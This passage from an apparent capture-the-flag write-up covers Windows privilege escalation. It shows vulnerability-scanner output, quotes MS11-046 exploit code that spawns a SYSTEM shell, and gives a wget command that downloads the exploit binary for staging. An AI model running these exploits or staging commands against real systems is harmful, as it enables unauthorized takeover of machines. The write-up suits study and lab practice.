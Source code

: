 ```powershell
   [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code
 in kernel mode.
   [>] Exploit: https://www.exploit-db.com/exploits/20861/
   [>] Notes: None.

  [*] Appears vulnerable to MS13-005
   [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integ
rity Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
   [>] Notes: None.

 [*] Finished. Found 5 vulns :)
ERROR> The given key was not present in the dictionary.
ERROR> C:\WINDOWS\System32\win32kfull.sys
ERROR> C:\WINDOWS\System32\gdiplus.dll
ERROR> C:\WINDOWS\System32\coremessaging.dll
```

There are several exploits to choose from, but we only need one good exploit.

## Web -> System: MS11-046

[@abatchy](https://twitter.com/abatchy17) hosts a Github repo for [several Windows exploits](https://github.com/abatchy17/WindowsExploits), one of which is for [MS11-046](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2011/ms11-046).  This exploits a vulnerability in the Ancillary Function Driver to execute code as System.

Reviewing the exploit source code, I located a very pleasant feature on line 801:

```c
    // spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

Many local exploits are more or less incompatible with remote shells; they simply don't accomodate them, typically opening a new window or the like.  They would be fine with a Remote Desktop session, but not this.

This exploit, however, states that it's compatible with remote shells; this feature is precisely the functionality that we need for this situation.

We can download the source and/or executable by using wget (preferably into the SMB directory):

```bash
# wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe
--2020-02-17 22:34:12--  https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe
Resolving github.com (github.com)... 192.30.255.112
Connecting to github.com (github.com)|192.30.255.112|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-046/MS11-046.exe [following]
--2020-02-17 22:34:12--  https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-046/MS11-046.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.128.133, 151.101.192.133, 151.101.0.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.128.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 112815 (110K) [application/octet-stream]
Saving to: ‘MS11-046.exe’
```